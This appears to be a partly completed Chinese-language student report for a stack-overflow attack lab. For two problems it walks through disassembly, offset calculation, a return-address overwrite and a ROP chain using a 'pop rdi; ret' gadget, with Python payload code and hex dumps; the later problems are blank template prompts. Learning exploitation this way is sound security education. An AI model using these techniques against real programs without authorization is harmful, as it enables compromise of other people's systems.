


# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
 1. **锁定目标**：反汇编发现隐藏函数 `func1`（地址 `0x401216`），其包含 `puts` 调用，确定为跳转目标。
  2. **定位漏洞**：`func` 函数中 `strcpy` 存在栈溢出。指令 `lea -0x8(%rbp),%rax` 表明缓冲区始于 `rbp-0x8`。
  3. **计算偏移**：
     *   目标是覆盖 Return Address。
     *   栈布局：`Buffer (8 bytes)` -> `Saved RBP (8 bytes)` -> `Return Address`。
     *   **Offset** = 8 (Buffer) + 8 (Saved RBP) = **16 字节**。
     *   故需填充 16 字节垃圾数据，随后写入 `func1` 地址。


- **解决方案**：
 Payload 结构为：`[16字节 Padding] + [8字节 Address]`。
  
  **Python 构造逻辑**：
  ```python
  padding = b'A' * 16                     # 填满 Buffer 和 RBP
  addr = (0x401216).to_bytes(8, 'little') # func1 地址转为小端序
  # 写入文件...
  ```

   **Payload 二进制视图**：
  ```text
  00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
  00000010  16 12 40 00 00 00 00 00                           |..@.....|
  ```

- **结果**：
  


### Problem 2:
- **分析**：
1. **目标约束**：目标函数 `func2` (`0x401216`) 会检查第一个参数 `%edi` 是否等于 `0x3f8`。
     ```asm
     401222: 89 7d fc             mov    %edi,-0x4(%rbp)
     401225: 81 7d fc f8 03 00 00 cmpl   $0x3f8,-0x4(%rbp) # 检查参数
     ```
  2. **技术难点**：x86-64 架构下参数通过寄存器传递（Arg1 在 `%rdi`）。仅通过栈溢出覆盖返回地址无法直接修改寄存器，需使用 **ROP (Return Oriented Programming)** 技术。
  3. **寻找 Gadget**：在程序中找到现成的指令片段 `pop %rdi; ret` (位于 `0x4012c7`)。
     *   该 Gadget 的作用是将栈顶数据弹出至 `%rdi`，然后返回，从而实现参数赋值。
  4. **攻击链构造**：
     *   `[Padding 16字节]`：填满缓冲区。
     *   `[Gadget 地址]`：覆盖原返回地址，程序跳转至 `pop %rdi`。
     *   `[0x3f8]`：作为参数布置在栈上，被 Gadget 捕获放入 `%rdi`。
     *   `[func2 地址]`：Gadget 执行 `ret` 后，程序跳转至最终目标。

- **解决方案**：
  Payload 结构：`[Padding] + [Gadget Addr] + [Param Value] + [Target Addr]`

 **Python 构造逻辑**：
  ```python
  padding = b'A' * 16
  gadget  = (0x4012c7).to_bytes(8, 'little') # pop rdi; ret
  param   = (0x3f8).to_bytes(8, 'little')    # 参数值
  target  = (0x401216).to_bytes(8, 'little') # func2
  
  payload = padding + gadget + param + target
  ```

**Payload 二进制视图**：
  ```text
  00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
  00000010  c7 12 40 00 00 00 00 00  f8 03 00 00 00 00 00 00  |..@.............|
  00000020  16 12 40 00 00 00 00 00                           |..@.....|
  ```

- **结果**：
  


### Problem 3: 
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

### Problem 4: 
- **分析**：体现canary的保护机制是什么
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
